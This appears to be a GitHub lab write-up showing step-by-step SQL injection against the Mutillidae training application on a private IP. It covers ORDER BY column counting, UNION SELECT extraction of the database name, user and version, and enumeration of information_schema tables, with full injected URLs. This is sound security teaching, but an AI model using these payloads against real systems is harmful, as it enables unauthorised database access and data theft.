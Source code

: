 
Since we do not know the number of columns, we start at 1. To find the exact amount of columns, the number is incremented until an error related to the “ORDER BY” clause is returned. In this example, we incremented it to 6 and received an error message, so it means that the number of columns is lower than 6.

The browser url of this info page need to be modified with the url as below:

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=vatsan%27order%20by%206%23&password=&user-info-php-submit-button=View+Account+Details


![image](https://github.com/vatsan143/sqlinjection/assets/147368204/3fab5188-592a-4a9f-8420-824f73fc928a)

After adding the order by 6 into the existing url , the following error statement will be obtained:
![image](https://github.com/vatsan143/sqlinjection/assets/147368204/b3e02c12-53ad-4043-be4d-7038eb216687)



When we ordered by 5, it worked and displayed some information. It means there are five columns that we can work with. Following screenshot shows that the url modified to have statement added with ordered by 5 replacing 6.
![image](https://github.com/vatsan143/sqlinjection/assets/147368204/d696d4cb-9f7c-4a2f-bd7f-2c1e4c704f68)


 As it is having 5 columns the query worked fine and it provides the correct result


![image](https://github.com/vatsan143/sqlinjection/assets/147368204/e2423848-e9f1-4af6-99ce-e4c3c94be547)


Instead of using the "order by" option, let’s use the "union select" option and provide all five columns. Ex: (union select 1,2,3,4,5)

![image](https://github.com/vatsan143/sqlinjection/assets/147368204/54e02b5c-2c69-48a7-ab65-65bdba463307)
As given in the screenshot below columns 2,3,4 are usable in which we can substitute any sql commands to extract necessary information.
![image](https://github.com/vatsan143/sqlinjection/assets/147368204/7079a658-8985-4a79-b6ce-fc9fc82ab461)
 Now we will substitute some few commands like database(), user(), version() to obtain the information regarding the database name, username and version of the database.

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=vatsan%27union%20select%201,database(),user(),version(),5%23&password=&user-info-php-submit-button=View+Account+Details



![image](https://github.com/vatsan143/sqlinjection/assets/147368204/aa264de1-ed65-498d-96fd-98da9d720b16)
The url when executed, we obtain the necessary information about the database name owasp10, username as root@localhost and version as 5.0.51a-3ubuntu5.
In MySQL, the table “information_schema.tables” contains all the metadata identified with table items. Below is listed the most useful information on this table.

Replace the query in the url with the following one:
union select 1,table_name,null,null,5 from information_schema.tables where table_schema = ‘owasp10’


http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=vatsan%27union%20select%201,table_name,null,null,5%20from%20information_schema.tables%20where%20table_schema=%27owasp10%27%23&password=&user-info-php-submit-button=View+Account+Details
